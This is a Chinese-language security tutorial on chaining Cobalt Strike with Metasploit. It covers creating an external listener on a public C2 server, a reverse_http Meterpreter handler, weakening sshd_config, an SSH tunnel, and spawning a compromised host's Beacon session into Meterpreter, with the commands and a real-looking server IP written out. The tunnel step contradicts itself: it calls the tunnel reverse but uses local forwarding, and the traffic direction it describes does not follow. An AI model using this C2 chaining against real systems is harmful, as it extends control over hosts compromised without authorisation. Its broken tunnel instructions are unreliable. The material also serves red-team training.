# 网络安全教程：P74：CS联动MSF之外部监听器 🛠️

在本节课中，我们将学习如何将Cobalt Strike（CS）已上线的内网主机会话（Session）转发给Metasploit（MSF），以实现更高级的渗透操作。核心在于配置一个“外部监听器”，并通过SSH隧道解决网络连通性问题。

上一节我们介绍了监听器的基本概念，本节中我们来看看如何创建并使用外部监听器，实现CS与MSF的联动。



## 创建外部监听器



首先，我们需要在Cobalt Strike服务器上创建一个新的监听器（Listener），其负载（Payload）类型需设置为“外部（External）”。

以下是具体操作步骤：
1.  在Cobalt Strike客户端，导航至 `Cobalt Strike` -> `Listeners`。
2.  点击 `Add` 按钮，新建一个监听器。
3.  在 `Payload` 下拉菜单中，选择 `windows/beacon_http/reverse_http`（CS 4.0版本可能简化为`External HTTP`或类似选项）。
4.  设置监听参数：
    *   `Host`: 填写Cobalt Strike **服务器** 的公网IP地址（例如：`39.108.68.207`）。
    *   `Port`: 设置一个监听端口（例如：`8085`）。

配置完成后，Cobalt Strike服务器将在指定IP和端口（本例为 `39.108.68.207:8085`）上开启监听。





## 配置Metasploit处理器



接下来，我们需要在Metasploit（运行在Kali Linux上）配置一个对应的处理器（Handler）来接收会话。



以下是具体操作步骤：
1.  在Kali Linux中启动 `msfconsole`。
2.  使用 `exploit/multi/handler` 模块。
    ```bash
    use exploit/multi/handler
    ```
3.  设置与Cobalt Strike监听器匹配的Payload。
    ```bash
    set payload windows/meterpreter/reverse_http
    ```
    > **注意**：Payload类型必须对应。如果CS监听器使用HTTP，MSF也需使用`reverse_http`。
4.  配置监听选项：
    *   `LHOST`: 设置为 **Kali Linux本机的IP地址**（例如内网地址 `192.168.123.128`）。这是接收连接的真实地址。
    *   `LPORT`: 设置为与Cobalt Strike监听器 **相同** 的端口（例如：`8085`）。
    ```bash
    set LHOST 192.168.123.128
    set LPORT 8085
    ```
5.  执行 `run` 或 `exploit` 命令，在Kali上开启监听。



此时，Kali Linux（`192.168.123.128:8085`）和Cobalt Strike服务器（`39.108.68.207:8085`）各自开启了一个监听，但两者尚未连通。



## 建立SSH隧道进行端口转发

由于Cobalt Strike服务器位于公网，而运行MSF的Kali位于内网，公网服务器无法直接访问内网Kali的端口。因此，我们需要通过SSH隧道将两个监听端口打通。

以下是建立SSH隧道的步骤：
1.  **在Cobalt Strike服务器上启用SSH端口转发功能**。
    *   编辑SSH服务端配置文件 `/etc/ssh/sshd_config`。
    *   确保以下参数已启用（取消注释或设置为 `yes`）：
        ```
        PasswordAuthentication yes
        AllowTcpForwarding yes
        GatewayPorts yes
        TCPKeepAlive yes
        ```
    *   保存文件并重启SSH服务：`systemctl restart sshd`。
2.  **在Kali Linux上建立SSH反向隧道**。
    *   执行以下命令，将Kali本地的8085端口转发到公网服务器的8085端口：
    ```bash
    ssh -C -f -N -g -L 8085:127.0.0.1:8085 root@39.108.68.207 -p 22
    ```
    *   命令参数解释：
        *   `-C`: 压缩传输。
        *   `-f`: 后台运行。
        *   `-N`: 不执行远程命令，仅用于端口转发。
        *   `-g`: 允许远程主机连接本地转发端口。
        *   `-L 8085:127.0.0.1:8085`: 本地端口转发。将本地（Kali）`8085`端口的流量，通过隧道转发到远程服务器（`39.108.68.207`）本机（`127.0.0.1`）的`8085`端口。
        *   `root@39.108.68.207`: SSH连接的用户和主机地址。
        *   `-p 22`: SSH端口（默认22）。
    *   执行后输入服务器密码，隧道即在后台建立。可使用 `netstat -tunlp | grep 8085` 或 `ss -tunlp | grep 8085` 验证。



完成此步骤后，发往Cobalt Strike服务器 `39.108.68.207:8085` 的流量，将通过SSH隧道被转发至Kali Linux的 `192.168.123.128:8085`。

## 转移会话（Spawn）

当隧道建立，两端端口实现互通后，便可以在Cobalt Strike中将已上线的会话转移到MSF。

以下是操作步骤：
1.  在Cobalt Strike客户端的 `Beacons` 视图下，选中一个已上线的会话（例如 `SYSTEM` 权限的会话）。
2.  右键点击该会话，选择 `Spawn`。
3.  在弹出的对话框中，选择之前创建的、指向MSF的外部监听器（例如名为 `MSF_HTTP_8085` 的监听器）。
4.  点击 `Choose`。

此时，Cobalt Strike会通过该监听器，向目标主机发送一个连接到 `39.108.68.207:8085` 的Payload。由于SSH隧道的存在，该连接请求最终会被转发到Kali Linux上运行的Metasploit处理器。





如果一切配置正确，你将在Metasploit控制台看到新的Meterpreter会话成功建立。



---

本节课中我们一起学习了CS与MSF联动的关键流程。我们首先在CS创建了外部监听器，然后在MSF配置了对应的处理器。接着，我们通过建立SSH隧道，解决了内网Kali与公网CS服务器之间的网络连通性问题。最后，我们通过Spawn操作，成功将CS的Beacon会话转移到了MSF，获得了功能更强大的Meterpreter会话。掌握这一技术，能有效拓展在内网渗透中的后期利用能力。